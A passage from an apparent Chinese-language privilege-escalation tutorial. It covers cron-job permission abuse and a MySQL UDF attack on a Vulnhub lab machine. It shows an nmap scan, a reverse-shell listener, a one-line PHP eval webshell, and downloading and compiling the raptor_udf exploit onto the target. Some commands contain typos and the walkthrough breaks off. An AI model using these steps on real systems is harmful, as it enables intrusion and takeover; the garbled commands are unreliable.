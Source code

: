 ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawVzia9zHDSF3qibMhGOV3pKeOl02A9iaibEKQjib7OnSGNpstuT84LMOU2hQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



如果不是tar命令,而是其他命令,则要看其他命令是否支持调用执行





\#第三种:权限问题

利用不安全的权限分配操作导致的定时任务覆盖

chmod 777 775等 所有者 组 其他成员说明

一般为管理员为定时任务分配了不当的权限,例如777,导致普通用户可以对定时任务进行覆盖,从而提权

判断漏洞:ls -al 目录



**Linux提权第三方服务数据库MYSQL_UDF-Vulnhub**

  Vulnhub某靶机-探针IP及端口-利用漏洞获取web权限-信息收集-查看数据库配置文件-利用Mysql提权Linux(Mysql版本区别同Windows)

\#探针IP及端口

nmap 192.168.76.0/24



\#利用phpmailer漏洞进行修改并反弹

python D:/Myproject.40974.py nc -lvp 4444



\#写入后⻔利用菜刀连接方便操作

echo '<?php eval($_POST[x]);?>' >1.php

上传信息收集脚本进行提权信息收集

./LinEnum.sh

翻阅数据库配置文件获取root密码



\#利用Mysql提权 searchsploit

下载mysql udf poc进行编译(建议在本地完成,有可能目标没有gcc)

wget https://www.exolpit-db.com/download/1518

mv 1518 raptor_udf.c

gcc -g -c raptor_udf.c

gcc -g -shard -o raptor_udf.so raptor_udf.o

mv raptor_udf.so 1518.so

下载1518到目标服务器(也可以通过webshell上传)

wget https://xx.xx.xx.xx/1518.so

54进入数据库进行UDF导出
